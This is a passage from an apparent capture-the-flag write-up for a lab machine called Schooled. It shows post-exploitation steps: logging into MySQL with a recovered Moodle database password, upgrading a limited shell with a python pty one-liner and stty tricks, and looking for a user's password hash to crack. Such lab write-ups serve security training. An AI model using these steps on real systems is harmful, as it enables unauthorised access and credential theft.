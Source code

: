 Let's see if there is an installation of mysql now:

```
$ which mysql
/usr/local/bin/mysql
$ 
```

That resolves the issue, however, we now get another issue, which is most likely related to the limited shell we are in:

```
$ mysql -u moodle -p
Enter password: PlaybookMaster2020
db;
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'db' at line 1
$
```

Let's upgrade the shell with python:

```
$ which python
$ which python3
/usr/local/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
[www@Schooled /var/db/mysql]$
```

This is good, but now we are getting character duplication. To get around this, one option is the following sequence:

> Ctrl + z\
> stty raw -echo\
> fg\
> Hit the enter key twice

This is much better. Let's connect to the mysql service now.

### MySQL

After looking around for a bit, I eventually found the mdl\_user table in the moodle database. Looking through this table, I found an entry for the user Jamie. Since the only users who have accounts on the box are "jamie" and "steve", let's grab the encrypted password for Jamie and try and crack it.

```
[www@Schooled /]$ mysql -u moodle -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1638
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
```